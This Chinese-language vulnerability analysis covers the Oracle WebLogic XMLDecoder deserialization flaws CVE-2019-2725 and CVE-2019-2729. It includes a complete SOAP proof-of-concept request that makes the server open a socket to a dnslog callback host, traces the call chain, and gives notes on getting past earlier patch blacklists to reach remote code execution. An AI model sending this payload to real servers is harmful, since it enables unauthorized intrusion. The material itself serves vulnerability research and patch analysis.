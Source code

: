 - [CVE-2019-2725 \& 2729 反序列化](#cve-2019-2725--2729-反序列化)
  - [POC](#poc)
  - [原理](#原理)
    - [调用链](#调用链)
    - [Bypass CVE-2017-12071](#bypass-cve-2017-12071)
      - [payload构造](#payload构造)
- [BypassCVE-2019-2725-\>2729](#bypasscve-2019-2725-2729)
  - [参考:](#参考)
# CVE-2019-2725 & 2729 反序列化
影响版本
```
Oracle WebLogic Server 10.*
Oracle WebLogic Server 12.1.3
```
影响组件
```
bea_wls9_async_response.war
wsat.war 
```
## POC
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 748
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
    <class>
        <string>java.net.Socket</string>
        <void>
            <string>d2r0h9.dnslog.cn</string>
            <int>80</int>
        </void>
    </class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
## 原理
主要在于bea_wls9_async_response.war和wsat.war组件中处理soap消息时使用了XMLDecoder进行解析xml数据,触发了XMLDecoder反序列化漏洞,而这次也则绕过了CVE-2017-12071的补丁. 
### 调用链
>Tips:调试时不知道从哪打断点时直接在最后的ProcessBuilder类打断点,则可得到调用链,再反向寻找相关组件的触发流程.

调用链如下,从`Soapprocessor.process`开始处理soap数据,最后从`WorkContextXmlInputAdapter.readUTF`中进入`XMLDecoder.readObject`触发XMLDecoder反序列化.
![](4.png)

在`process`中根据请求类型为post,调用`handlePost`,在`handlePost`中主要为解析和封装soap消息,最后调用var7即WsSkel类的invoke方法.
![](5.png)
在`WsSkel.invoke`中实例化了一个ServerDispatcher对象,并设置了其Wsport和Connection属性,分别为请求的服务url和http,然后调用`ServerDispatcher.dispatch`.
![](6.png)
在`ServerDispatcher.dispatch`中调用` this.getHandlerChain().handleRequest(this.getContext(), var6);`,而getHandlerChain()即为`HandlerIterator`,即继续调用`HandlerIterator.handleRequest`.
![](7.png)
在`handleRequest`中var4赋为了`WorkAreaServerHandler`.
![](8.png)
然后调用了`WorkAreaServerHandler.handleRequest`,其中var3为通过`WlMessageContext var3 = WlMessageContext.narrow(var1)`获得的MessageContext对象.
![](9.png)
在`WorkAreaServerHandler.handleRequest`中,获取到soap的headers,然后实例化了一个`WorkContextMapInterceptor`对象,将获取到的WorkAreaHeader(var4)传入`new WorkContextXmlInputAdapter`中,再将该`WorkContextXmlInputAdapter`传入`receiveRequest`中.
![](10.png)
然后经过`WorkContextLocalMap.receiveRequest`调用`WorkContextEntryImpl.readEntry`,最后在`readEntry`中调用`WorkContextXmlInputAdapter.readUTF`.
![](11.png)
而在`readUTF`中则直接返回调用xmlDecoder.readObect()触发XMLDecoder反序列化.
![](12.png)
### Bypass CVE-2017-12071
该漏洞与weblogic之前的CVE-2017-3506&CVE-2017-12071原理类似,只不过入口点不一样,最后都是触发XMLDecoder反序列化漏洞,而该漏洞主要在于绕过了之前CVE-2017-12071补丁中的黑名单.
因为在之前的补丁中无法调用对象的对应方法,所以在该漏洞中的利用思路为在对象的构造函数中触发rce,在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞链造成了远程代码执行。

#### payload构造
在官方文档中可以看到class标签也可以指定实例化任意类,从而绕过了`object、new、method`关键字黑名单来实例化对象.  
![](13.png)  
因为`void`标签受限的原因,无法调用对象的相应方法,则从对象实例化过程中的构造函数下手,通过对象自动执行的构造函数来触发RCE,同时因为array标签的限制,构造函数的参数只能为bytes类型.思路则为利用class标签来实例化类,再利用void标签传入bytes类型的参数进行利用.

**利用链:**  
Weblogic自带的1.6:jdk7u21 gadget  
12.1.3: org.slf4j.ext.EventData  
...  
...  
... 
# BypassCVE-2019-2725->2729
在2019-2725的补丁中继续把class加入了黑名单,而在2729中则是使用`<array method=”forName”>`来代替class标签,因为在weblogic自带的jdk1.6来说,这两个标签是相同效果的可以进行替换.而在2729的补丁中则使用了白名单,且对白名单的标签进行了属性的类型限制.

## 参考:  

https://www.freebuf.com/articles/web/202203.html  
https://paper.seebug.org/909/